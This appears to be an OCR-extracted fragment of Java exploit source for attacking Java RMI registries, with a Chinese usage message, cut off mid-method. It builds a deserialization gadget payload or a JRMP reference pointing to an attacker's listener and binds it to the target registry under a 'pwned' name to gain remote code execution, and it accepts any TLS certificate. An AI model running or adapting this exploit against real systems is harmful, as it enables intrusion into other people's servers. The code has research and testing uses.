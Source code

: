 ```
    }

    private static class RMISSLClientSocketFactory implements RMIClientSocketFactory {
        public Socket createSocket(String host, int port) throws IOException {
            try {
                SSLContext ctx = SSLContext.getInstance("TLS");
                ctx.init(null, new TrustManager[]{new TrustAllSSL()}, null);
                SSLSocketFactory factory = ctx.getSocketFactory();
                return factory.createSocket(host, port);
            } catch (Exception e) {
                throw new IOException(e);
            }
        }
    }

    public static void main(final String[] args) throws Exception {
        System.out.println("用法如下 RMIRegistryHost  RMIRegistryPort JRMPListenerHost JRMPListenerPort");
        final String rmiRegistryHost = args[0];
        final int rmiRegistryPort = Integer.parseInt(args[1]);
        final String jrmpListenerHost = args[2];
        final int jrmpListenerPort = Integer.parseInt(args[3]);
        Registry registry = LocateRegistry.getRegistry(rmiRegistryHost, rmiRegistryPort);

        // test RMI registry connection and upgrade to SSL connection on fail
        try {
            registry.list();
        } catch (ConnectIOException ex) {
            registry = LocateRegistry.getRegistry(rmiRegistryHost, rmiRegistryPort, new RMISSLClientSocketFactory());
        }

        // ensure payload doesn't detonate during construction or deserialization
        exploit(registry, jrmpListenerHost, jrmpListenerPort);
    }

    public static void exploit(final Registry registry,
                               final Class<? extends ObjectPayload> payloadClass,
                               final String command) throws Exception {
        new ExecCheckingSecurityManager().callWrapped(new Callable<Void>() {
            public Void call() throws Exception {
                ObjectPayload payloadObj = payloadClass.newInstance();
                Object payload = payloadObj.getObject(command);
                String name = "pwned" + System.nanoTime();
                Remote remote = Gadgets.createMemoitizedProxy(Gadgets.createMap(name, payload), Remote.class);
                try {
                    registry.bind(name, remote);
                } catch (Throwable e) {
                    e.printStackTrace();
                }
                Utils.releasePayload(payloadObj, payload);
                return null;
            }
        });
    }

    public static void exploit(final Registry registry, final String jrmpListenerHost, final int jrmpListenerPort) throws Exception {

        UnicastRef unicastRef = generateUnicastRef(jrmpListenerHost, jrmpListenerPort);
        /*
        poc 1*/
```